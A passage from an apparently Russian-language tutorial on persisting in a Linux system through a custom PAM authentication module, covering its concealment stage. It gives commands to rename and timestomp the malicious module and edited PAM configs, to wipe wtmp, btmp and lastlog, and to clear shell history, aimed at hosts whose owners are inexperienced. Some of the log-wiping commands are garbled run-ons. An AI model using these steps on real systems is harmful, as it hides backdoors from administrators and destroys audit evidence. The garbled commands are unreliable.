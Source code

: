 ![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/970/d7e/ea7/970d7eea73ead950b037f90be07c1fab.png)

• Для пароля `kali`:

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/cf7/95d/25b/cf795d25b3a8b590d74bf791cf0f4f71.png)

Как видно, такой вариант увенчался успехом.

### Заметаем следы

А теперь давайте замаскируем [test.so](http://test.so/), изменив его права, название и временные метки

`chmod 644 test.so`

`mv test.so pam_auth.so`

_Не забываем изменить названия в конфигах с_ `test.so` на `pam_auth.so`

```
touch -r /lib/x86_64-linux-gnu/security/pam_rootok.so /lib/x86_64-linux-gnu/security/pam_auth.so
```

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/04e/753/4ae/04e7534ae751e333f02edfb21282bd31.png)

Файл успешно замаскирован.

Также не забудем про ранее подредаченные `/etc/pam.d/sshd`и `/etc/pam.d/common-auth`

`touch -r /etc/pam.d/sudo /etc/pam.d/sshd`

`touch -r /etc/pam.d/sudo /etc/pam.d/common-auth`

Теперь подчистим логи:

```
# echo > /var/log/wtmpecho > /var/log/btmpecho > /var/log/lastlog
```

```
history -rcat /dev/null > ~/.bash_history
```

Поздравляю! Вы смогли закрепиться в системе, написав свой модуль.

Для закрепления прочитанного предлагаю [посмотреть видеоинструкцию](https://youtu.be/puf7jLTga1o)

### Вывод

Данный вариант закрепления не является очень надежным способом из-за создания нового файла, который более-менее опытный админ легко найдет. Также мы меняем конфиги, которые тоже можно сравнить с оригинальными. Помимо этого, мы компилили файл на целевом хосте, чего лучше не делать (по-хорошему, если это сервер, то не должно быть возможности компиляции файлов для обеспечения безопасности). Данный способ подойдет в качестве закрепления на хостах, чьи хозяева не являются уверенными пользователями Linux, которые с легкостью заподозрят неладное.

Во второй части рассмотрим более скрытный способ, а также настроим логирование всех пользователей, которые вводят пароль в системе. До скорого :)
